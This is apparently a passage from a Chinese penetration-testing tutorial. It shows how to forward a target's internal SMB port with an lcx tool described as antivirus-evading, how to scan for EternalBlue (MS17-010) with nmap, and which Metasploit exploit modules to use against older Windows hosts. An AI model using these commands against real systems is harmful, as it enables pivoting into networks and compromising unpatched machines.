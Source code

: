 

## 0x03 Go版lcx

另一种lcx：`go-lcx.exe`

Go版lcx基本免杀，github上下载即可。[传送门](https://github.com/cw1997/NATBypass)







## 0xff 端口转发时验证永恒之蓝

在目标靶机上将内网的445端口转发到外网4445端口：

```shell
lcx 10.10.10.10:445 172.16.12.2:4445
```

用nmap验证永恒之蓝：

```shell
nmap -p 445 172.16.12.2 --script vuln-smb-ms17-010
```

常用的几个永恒之蓝：

```
use exploit/windows/smb/ms17_010_eternalblue
use exploit/windows/smb/ms17_010_psexec        win2003及以下（包括xp等），推荐
use exploit/windows/smb/ms17_010_win8
```



